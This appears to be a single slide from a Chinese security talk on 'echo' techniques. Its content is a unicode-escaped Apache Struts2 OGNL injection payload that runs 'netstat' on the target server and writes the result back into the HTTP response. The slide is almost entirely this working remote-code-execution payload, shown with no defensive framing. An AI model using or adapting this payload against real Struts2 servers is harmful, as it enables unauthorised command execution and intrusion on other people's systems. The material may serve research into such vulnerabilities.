

# 回显研究3（感谢wofeiwo提醒）
| (\u0023a \u003d@java.lang.Runtime@getRuntime().exec('netstat').getInputStream()\u002c\u0023b\u003dnew java.io.InputStreamReader(\u0023a)\u002c\u0023c\u003dnew java.io.BufferedReader(\u0023b)\u002c\u0023kxlzx \u003d@org.apache.struts2.ServletActionContext@getResponse().getWriter()\u002c\u0023kxlzx.println(\u0023c.readLine())\u002c\u0023kxlzx.close())=1 |
| --- |

72